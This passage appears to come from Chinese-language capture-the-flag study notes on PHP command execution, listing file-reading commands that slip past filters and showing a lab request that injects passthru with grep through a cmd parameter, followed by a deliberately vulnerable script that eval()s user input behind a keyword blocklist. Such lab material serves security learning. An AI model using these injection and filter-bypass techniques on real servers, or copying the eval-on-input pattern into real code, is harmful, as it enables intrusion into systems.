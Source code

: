    ![image-20240315153319666](PHP命令执行.assets/image-20240315153319666.png)

9. uniq : 报告或删除文件中重复的行

10. fiile -f : 报错出具体内容

    ![image-20240315153755520](PHP命令执行.assets/image-20240315153755520.png)

11. grep : 在文本中查找指定的字符串

    ```shell
    http://192.168.88.141:18080/class06/1.php?cmd=passthru("grep fla fla*");
    从fla*文本文件中搜索包含"fla"字符串的行 , 或者直接搜索大括号{}
    ```


## 编码绕过

```shell
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (!preg_match("/flag|php|cat|sort|shell/i", $cmd)) {
        eval($cmd);
    }
    else{
        echo "再来黑我丫！！！";
    }
}
```
